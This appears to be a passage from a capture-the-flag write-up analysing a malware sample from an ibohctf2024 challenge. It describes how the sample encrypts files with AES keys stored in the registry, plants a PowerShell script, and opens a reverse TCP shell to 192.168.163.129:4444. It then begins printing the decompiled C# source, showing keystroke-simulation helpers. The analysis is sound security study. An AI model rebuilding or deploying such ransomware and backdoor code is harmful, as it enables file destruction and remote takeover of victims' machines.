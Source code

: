 ![malmon4](/assets/posts/ibohctf2024/malmon4.png)

Edit: After disassembling malware as requested by the author, the malware behavior can be analyzed. When the malware runs, the malware first proceeds to generate and place a random AES key and IV into the registry hive, and encrypts the files within the 'important' folder using them. It also implants a Powershell script within the registry hive which will then search whether there is a random key and IV. If yes, the Powershell script encrypts the files again with a static key and IV. Finally, the malware opens a TCP connection to 192.168.163.129:4444, allowing remote execution of commands via PowerShell.

```c#
using System;
using System.Diagnostics;
using System.IO;
using System.Net.Sockets;
using System.Runtime.InteropServices;
using System.Text;
using System.Windows.Forms;
using Microsoft.Win32;

// Token: 0x02000005 RID: 5
internal class Program
{
	// Token: 0x06000016 RID: 22
	[DllImport("user32.dll", SetLastError = true)]
	public static extern void keybd_event(byte bVk, byte bScan, uint dwFlags, UIntPtr dwExtraInfo);

	// Token: 0x06000017 RID: 23 RVA: 0x0000240D File Offset: 0x0000060D
	private static void PressKey(byte keyCode)
	{
		Program.keybd_event(keyCode, 0, 1U, UIntPtr.Zero);
	}

	// Token: 0x06000018 RID: 24 RVA: 0x0000241E File Offset: 0x0000061E
	private static void ReleaseKey(byte keyCode)
	{
		Program.keybd_event(keyCode, 0, 3U, UIntPtr.Zero);
	}
```